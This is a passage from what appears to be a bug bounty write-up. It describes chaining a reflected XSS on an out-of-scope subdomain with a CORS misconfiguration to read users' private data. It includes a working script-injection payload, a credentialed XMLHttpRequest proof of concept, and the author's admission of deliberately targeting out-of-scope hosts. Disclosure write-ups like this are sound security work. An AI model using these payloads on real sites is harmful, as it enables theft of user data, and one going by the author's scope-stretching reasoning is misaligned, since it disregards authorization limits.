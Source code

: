 This API endpoint was returning the user’s private information, like full name, email address, ….

To abuse this misconfiguration so we can perform an attack, like leaking users’ private information, we need either to claim an abandoned subdomain (**Subdomain Takeover),**  or find an  **XSS**  in one of the existing subdomains.

## Think Outside The Scope

Finding an abandoned subdomain is not that trivial, so I decided to go for the second option, finding an XSS in one of the existing subdomains. However, the scope of this private program is limited to only:  [www.redacted.com,](http://www.redacted.com%2C/)  Which means that finding an XSS in other subdomain is definitely out of the scope, but chaining this XSS with the CORS misconfiguration is somehow in the Scope. Right?

And, the fact that the other subdomains are out of scope, is the reason that made me more confident, that there is a big chance of finding an XSS on those subdomains since other hackers will not be testing them.

So, I start searching for this XSS, with a heart full of hope to find it, And In less than one hour, I found one in  **_banques.redacted.com_**, using the following payload:

```
https://banques.redacted.com/choice-quiz?form_banque=_**_"><script>alert(document.domain)</script>_**_&form_cartes=73&iframestat=1_
```

![](https://miro.medium.com/max/875/1*m3TSXXSnBjdFd0Yfg8kQPg.png)

Time to create a nice Proof of Concept, and submit a report

## Reproduce :

So to exploit this CORS Misconfiguration we just need to replace the XSS payload  **_alert(document.domain)_**, with the following code:

```javascript
function cors() {    
var xhttp = new XMLHttpRequest();    
xhttp.onreadystatechange = function() {      
    if (this.status == 200) {      
    alert(this.responseText);       
    document.getElementById("demo").innerHTML = this.responseText;      
    }    
};    
xhttp.open("GET", "**_https://www.redacted.com/api/return_**", true);    
xhttp.withCredentials = true;    
xhttp.send();  
}  
cors();
```

Like This :

```
_https://banques.redacted.com/choice-quiz?form_banque=_**_">_<script>_function%20cors(){var%20xhttp=new%20XMLHttpRequest();xhttp.onreadystatechange=function(){if(this.status==200) alert(this.responseText);document.getElementById("demo").innerHTML=this.responseText}};xhttp.open("GET","https://www.redacted.com/api/return",true);xhttp.withCredentials=true;xhttp.send()}cors();_</script>**_&form_cartes=73&iframestat=1_
```
